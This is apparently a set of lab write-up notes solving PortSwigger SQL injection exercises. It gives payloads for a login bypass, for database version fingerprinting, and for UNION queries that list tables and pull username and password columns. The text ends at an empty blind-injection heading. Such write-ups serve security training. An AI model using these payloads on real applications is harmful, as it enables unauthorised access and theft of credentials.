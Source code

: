 # Basic SQL Injection

## **Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

### *To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.*

`GET /filter?category=Lifestyle'+OR+1=1--`

## **Lab: SQL injection vulnerability allowing login bypass**

### *To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.*

`Username: Administrator'--`

[SQL Injection UNION Attacks](https://github.com/hackerbytrade/Hacker-Docs/blob/9e8136521216e9c29d478190488a42402b34d1ae/PortSwigger/SQL%20Injection/sql_union.md)


# Lab: SQL injection attack, querying the database type and version on Oracle

### This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

- Determine Number of Columns using dual table (special built in table for Oracle)
`'+UNION+SELECT+NULL,NULL+FROM+dual--`

- Query to get version info via banner
`'+UNION+SELECT+BANNER,NULL+FROM+v$version--`

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

### This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

- Determine Number of Columns
`'+UNION+SELECT+NULL,NULL#`

- Query to get version info via banner
`'+UNION+SELECT+@@version,+NULL#`

# Lab: SQL injection attack, listing the database contents on non-Oracle databases
- Determine Number of Columns
`'+UNION+SELECT+NULL,NULL--`

- Retrieve List of Tables
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

- Select Specific Table
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_jkofuc'`

- Select Column Names
`'+UNION+SELECT+username_tyhqei,+password_jjgduf+FROM+users_jkofuc--`

# Lab: SQL injection attack, listing the database contents on Oracle

- Determine Number of Columns
`'+UNION+SELECT+NULL,NULL+FROM+DUAL--`

- Retrieve List of Tables
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

- Retrieve Columns From Table
`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_EURTJQ'--`

- Retrieve Data From Columns
`'+UNION+SELECT+USERNAME_UVKOLW,+PASSWORD_FQOUCN+FROM+USERS_EURTJQ--`


# Lab: Blind SQL injection with conditional responses